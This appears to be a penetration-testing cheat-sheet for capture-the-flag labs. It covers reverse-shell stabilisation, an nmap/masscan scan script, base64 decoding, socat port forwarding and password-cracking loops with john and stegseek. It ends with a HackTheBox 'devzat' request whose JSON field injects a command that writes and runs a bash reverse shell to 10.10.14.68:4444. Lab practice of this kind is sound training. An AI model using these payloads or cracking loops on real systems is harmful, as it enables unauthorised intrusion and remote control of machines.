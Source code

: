 ## 1. Stabilize your reverse shell
  
    python3 -c "import pty;pty.spawn('/bin/bash')"
    export TERM=xterm; export SHELL=/bin/bash
    CTRL+Z
    stty raw -echo;fg
    
  ####  OR Most good
         python3 -c "import pty;pty.spawn('/bin/bash')"
         export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
         export TERM=xterm-256color
         alias ll='ls -lsaht --color=auto'
          ctrl+Z  (in target) 
         stty raw -echo;fg;reset
               press enter *3
                   in my machine run 
                    stty -a ( output = speed 38400 baud; rows 40; columns 174; line = 0;)
         stty columns 174 rows 40
      
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
## BASH automation
*  cracking with all password list from seclists/Passwords
  
       for i in $(ls /usr/share/seclists/Passwords/ | grep .txt); do john hash /usr/share/seclists/Passwords/$i; done

 * cracking images
 
       for i in $(ls /usr/share/seclists/Passwords/ | grep *.txt); do stegseek event_banner.jpg /usr/share/wordlists/SecLists/Passwords/$i; done

   ### davzat
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
